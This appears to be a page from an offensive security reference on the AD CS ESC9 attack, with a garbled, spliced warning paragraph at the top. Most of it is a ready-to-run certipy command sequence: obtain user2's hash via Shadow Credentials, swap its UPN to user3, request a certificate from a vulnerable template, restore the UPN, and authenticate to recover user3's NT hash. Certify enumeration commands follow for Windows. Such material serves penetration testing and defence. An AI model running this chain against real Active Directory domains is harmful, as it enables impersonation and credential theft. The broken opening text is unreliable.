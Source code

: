 > [!WARNING]
> Acate can then be used with to obtain a TGT and authenticat the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` or the `CertificateMappingMethods` values. It is worth to try the attack hopping the keys are misconfigured.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC9 scenario.

In this scenario, user1 has `GenericWrite` against user2 and wants to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to user3.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

The vulnerable certificate can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

=== Windows

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```
